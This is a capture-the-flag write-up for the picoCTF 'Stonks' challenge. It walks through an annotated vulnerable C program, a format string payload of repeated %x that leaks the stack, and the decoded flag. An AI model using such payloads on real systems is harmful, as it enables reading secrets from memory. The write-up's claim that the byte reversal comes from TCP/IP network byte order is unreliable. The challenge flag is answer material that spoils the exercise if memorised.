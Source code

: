 # Stonks

## Introduction

Stonks is the first challenge for Binary Exploitation. The description says: "I
decided to try something noone [sic] else has before. I made a bot to
automatically trade stonks for me using AI and machine learning. I wouldn't
believe you if you told me it's unsecure! vuln.c `nc mercury.picoctf.net 53437`"

![challenge](resources/challenge.png)

## Information Gathering

### Hint 1

> Okay, maybe I'd believe you if you find my API key.

Just one hint this time! Yikes! API stands for application programming
interface. It is used to refer to the standard that defines how two separate
component communicate with each other. Think of it like how you receive letter
grades in school. You hand in your papers and you receive a grade back. That
transaction represents an underlying API.

In this case, the API key is referring to an alphanumeric string that we can
provide this networked application that will tell it who we are. Consider it
like a password of sorts - it is unique to certain individuals or projects.

The hint is telling us to take a look at how the API key is read into the
program or maybe the API key is hardcoded to a certain value. We will have to
take a look!

### Running the Program

The description tells us how to run the program: `nc mercury.picoctf.net 53437`.
 The program `nc` is short for `netcat` and is used for all things
networking. With it, we can communicate to an existing socket, open our own, or
scan ports. Take a look at `man nc` to learn about all of it's common uses (it
even has great examples). `nc` typically takes a destination address and a port
as an argument. In this case, we are specifying that we would like to connect
to `mercury.picoctf.net` over port 53437 using the Transmission Control
Protocol (TCP).

Let's try doing this in our terminal:

```bash
$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

We are met with a prompt asking for a 1 or 2 to perform certain actions. Other
characters don't seem to work. Entering `5` for example causes it to tell us
"Goodbye!".

Entering `1` prompts us for out API token:

```txt
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```

Entering a short value here seems to work and give us a few stocks that were
purchased for us. This ends to program.

Running it again (you will have to terminate the program with Ctrl+C) and
choosing the second option shows us our portfolio and exits the program.

```txt
Portfolio as of Sun Aug  1 22:03:52 UTC 2021


You don't own any stonks!
Goodbye!
```

By playing with the program, we have identified two locations where a user can
provide input: selecting 1 or 2 (or really anything else) to select the command
and the API key. This is key to finding bugs! It's hard to get a bug where
there is no user input.

But there is more! In the description we were provided with the source code for
`vuln.c`. Let's take a look at some key parts (comments are my own).

```c
int main(int argc, char *argv[])
{
	setbuf(stdout, NULL); /* Information will be written to stdout as soon
as it is written. */
	srand(time(NULL)); /* Seed a random number. */
	Portfolio *p = initialize_portfolio(); /* Allocate some memory and set
some values. */
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp); /* User input #1. Take text from stdin and convert
it to its integer representation. */

	if (resp == 1) {
		buy_stonks(p); /* This looks interesting! */
	} else if (resp == 2) {
		view_portfolio(p); /* This looks interesting! */
	}

	free_portfolio(p);
	printf("Goodbye!\n"); /* Free up our allocated memory. */

	exit(0);
}
```
I always like starting with `main`. Even without looking at the rest of the
code, it contextualizes a lot of what is going on and shows us some of the
paths that program takes. The above codeblock, in a nutshell, creates some
Portfolio structure, reads in user input, checks if it is a 1 or a 2, and calls
`buy_stonks` or `view_portfolio`. Okay, we don't see anything about flags here,
so maybe we should check out `buy_stonks`.

```c
int buy_stonks(Portfolio *p) {
	if (!p) { /* Check that this is initialized. */
		return 1;
	}
	char api_buf[FLAG_BUFFER]; */ Ooo, a static buffer of 128 bytes. */
	FILE *f = fopen("api","r"); /* Opening the flag file, this looks
promising. */
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f); /* Read 128 bytes from f and place them
into api_buf. */

	int money = p->money; /* This is a random number from 0-2018. */
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares); /* Maybe look at this? */
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf); /* User input #2. Get user input and make a
string of 300 characters. */
	printf("Buying stonks with token:\n");
	printf(user_buf); /* Bug alert! We are passing user controlled data
into this string formatter and aren't giving it the proper amount of arguments!
*/

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
Okay, so this code block looks really promising. It tells us that it is opening
and reading the flag and storing the value on the stack, but never actually
showing us. Later, we have a format string vulnerability where we control the
input. This is probably the key to this challenge.

A format string vulnerability occurs when the user input is evaluated by
functions such as `printf` or `sprintf` and there are unspecified amount of
format string parameters. If we consider the faulty line `printf(user_buf)`, we
can pass as user input a string such as `%s` and have the format function look
for a second argument on the stack (or registers, depending on your
architecture) and interpret it as a string. We can expand this further and walk
up the stack by providing *a lot* of format string parameters like
`%x%x%x%x%x%x%x%x%x%x%x`. When evaluated by the `printf` function, this user
input will request 11 values off the stack. Since the function didn't provide
any in the `printf` argument, we will be causing an out-of-bounds read off the
stack. Where is our flag stored? On the stack.

We try passing a bunch of format string parameters to the program:

```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
87c8430804b00080489c3f7f85d80ffffffff187c6160f7f93110f7f85dc7087c7180187c841087c84306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffe8007d
Portfolio as of Sat Aug  7 19:11:23 UTC 2021
...
...
```

The program outputs the evaluated result from the `printf` call, and it most
definitely is not the API token we passed in. This is where it gets hand-wavey.
We can see that a lot of values look like ASCII hex (see `man ascii`). Search
Google for a hex to ASCII converter gave us this result:
![ascii](./resources/hex_to_ascii.png)

It definitely looks like there is a flag there, judging by the brackets. But
what's up, the bytes are jumbled? This is due to [endianess][wiki].
[RFC1700][rfc] declares that TCP/IP will use big-endian when encoding data to
send over the network. We need to encode it back to little-endian to get the
order right. pwntools provides the [packing][pwn] utility to do just that; we
can use the `p32` function (which is really just a wrapper to struct.pack, but
who ever remembers all the flags to that function anyway?) to pack the data as
little-endian. A little python scripting swaps the order for us and we get the
flag: `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}`. This gives us 20 points!

[wiki]: https://en.wikipedia.org/wiki/Endianness
[rfc]: https://ieeexplore.ieee.org/document/1667115?arnumber=1667115
[pwn]: https://docs.pwntools.com/en/stable/util/packing.html
